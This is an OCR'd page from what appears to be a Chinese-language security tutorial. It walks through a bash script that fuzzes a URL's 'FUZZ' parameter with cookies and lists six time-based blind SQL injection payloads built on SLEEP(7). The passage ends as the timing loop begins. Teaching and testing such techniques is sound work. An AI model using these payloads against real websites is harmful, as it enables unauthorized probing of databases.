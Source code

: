 ```
 #!/usr/bin/env bash
check_dependencies() {
    for cmd in curl parallel; do
        if ! command -v $cmd &> /dev/null; then
            echo "$cmd could not be found. Please install it."             exit 1
        fi
    done
}
```

**print_usage** 函数包含脚本的使用说明：

```
 print_usage() {
    echo "Usage: $0 -u URL -c COOKIE_HEADER"
    echo "       $0 -f URL_FILE -c COOKIE_HEADER"
    echo "URL must contain 'FUZZ' where payloads should be inserted." }
```

在脚本的另一部分，如果没有提供正确的命令行参数，它会调用此函数，并打印使用说明。

**perform_sql_test** 函数设置了两个局部变量并将它们初始化为传递的两个函数参数：

```
 perform_sqli_test() {
    local url=$1
    local cookie_header=$2
```

在以下代码中，我们确保 URL 包含 **FUZZ** 以便插入有效负载；否则，打印错误信息并退出：

```
 if [[ $url != *"FUZZ"* ]]; then
        echo "Error: URL must contain 'FUZZ' where payloads should be inserted."         print_usage
        exit 1
    fi
```

这里我们定义一个 SQL 注入有效负载的数组：

```
 local payloads=(
        "(SELECT(0)FROM(SELECT(SLEEP(7)))a)"
        "'XOR(SELECT(0)FROM(SELECT(SLEEP(7)))a)XOR'Z"
        "' AND (SELECT 4800 FROM (SELECT(SLEEP(7)))HoBG)--"
        "if(now()=sysdate(),SLEEP(7),0)"
        "'XOR(if(now()=sysdate(),SLEEP(7),0))XOR'Z"
        "'XOR(SELECT CASE WHEN(1234=1234) THEN SLEEP(7) ELSE 0 END)XOR'Z"
    )
```

在以下代码中，我们循环遍历有效负载数组：

```
 for payload in "${payloads[@]}"; do
        start_time=$(date +%s)
```
